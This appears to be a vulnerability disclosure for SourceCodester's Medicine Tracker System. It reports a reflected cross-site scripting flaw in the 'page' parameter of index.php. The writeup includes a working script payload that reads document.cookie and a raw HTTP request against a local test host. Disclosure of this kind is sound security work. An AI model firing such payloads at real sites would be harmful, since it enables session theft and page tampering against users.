 **BUG_Author:**

Rone

**Vendor:**

[SourceCodester](https://vuldb.com/?vendor.sourcecodester)

**Software:**

[Medicine Tracker System in PHP (OOP) and MySQL DB Source Code Free Download | SourceCodester](https://www.sourcecodester.com/php/16308/medicine-tracker-system-php-oop-and-mysql-db-source-code-free-download.html)

**Vulnerability File:**
index.php

**Description:**

A vulnerability has been found in Medicine Tracker System (the affected version is unknown) and classified as problematic. Affected by this vulnerability is an unknown code of the file index.php. The manipulation of the argument with the input value leads to a cross site scripting vulnerability. The CWE definition for the vulnerability is CWE-79. The software does not neutralize or incorrectly neutralizes user-controllable input before it is placed in output that is used as a web page that is served to other users. As an impact it is known to affect integrity. page=1"><ScRiPt>alert(document.cookie)</ScRiPt>

```
GET /php-mts/index.php?page=1"><ScRiPt%20>alert(document.cookie)</ScRiPt> HTTP/1.1
Referer: http://127.0.0.1/php-mts/
Cookie: PHPSESSID=5bbgjmttr2vr0o38hhrad8jfb6
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4512.0 Safari/537.36
Host: 127.0.0.1
Connection: Keep-alive
```

![image-20231012000348639](https://github.com/GodRone/MedicineTrackerSystem/blob/main/Medicine%20Tracker%20System_XSS.assets/image-20231012000348639.png)

















